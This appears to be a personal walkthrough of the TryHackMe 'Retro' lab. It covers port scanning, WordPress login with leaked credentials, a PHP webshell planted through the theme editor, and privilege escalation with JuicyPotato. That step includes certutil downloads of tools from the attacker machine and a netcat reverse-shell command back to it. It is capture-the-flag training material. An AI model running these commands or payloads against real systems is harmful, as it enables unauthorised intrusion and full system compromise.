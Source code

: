 https://tryhackme.com/room/retro
# IP
```
10.10.15.65
```
# Reconnaissance 
## NMAP
```bash
nmap -p- -T4 10.10.15.65 -v 
Discovered open port 3389/tcp on 10.10.15.65
Discovered open port 80/tcp on 10.10.15.65

nmap -sV -sC -A 10.10.15.65 -p80,3389  
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2024-03-21T17:47:17
|_Not valid after:  2024-09-20T17:47:17
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2024-03-22T17:55:50+00:00
|_ssl-date: 2024-03-22T17:55:54+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
## Web server on port 80
it is windows machine. 
There is a hidden directory. And based on the room name and the question over there, it is `/retro`

`http://10.10.15.65/retro/wp-login.php`
it is wordpress website.
User: `Wade`. 

`http://10.10.15.65/retro/index.php/comments/feed/` gives `parzival` password

# Wordpress - RCE
`wade:parzival`

`Appeareance/Theme Editor`
include following payload somewhere on and open the page
`<?php system($_GET['cmd']);?>` 

`http://10.10.15.65/retro/index.php/author/wade/?cmd=whoami`
```
 nt authority\iusr 
```
# Reverse Shell
https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php - PHP Reverse Shell

# PricEsc
potato attack
or impersonation attack
```

C:\inetpub\wwwroot\retro>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

```bash
# on kali
l 
# GetCLSID.ps1  JuicyPotato.exe  nc.exe 
python3 -m http.server  
nc -lvnp 4444

# on windows
certutil -urlcache -f -split http://10.8.97.245:8000/JuicyPotato.exe
certutil -urlcache -f -split http://10.8.97.245:8000/nc.exe

# on windows
JuicyPotato.exe -l 1337 -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\nc.exe -e cmd.exe 10.8.97.245 4444" -t *
```

Now you are root!

# Another way
```bash
xfreerdp /u:Wade /v:10.10.15.65 /p:parzival /dynamic-resolution
```
and it works
# PrivEsc
there is a `HHUPD.EXE` in bin.
 Restoring it.
 And it is said that it can be used to privesc.
https://sotharo-meas.medium.com/cve-2019-1388-windows-privilege-escalation-through-uac-22693fa23f5f
it also should give highest priv. But I could not open browser. 

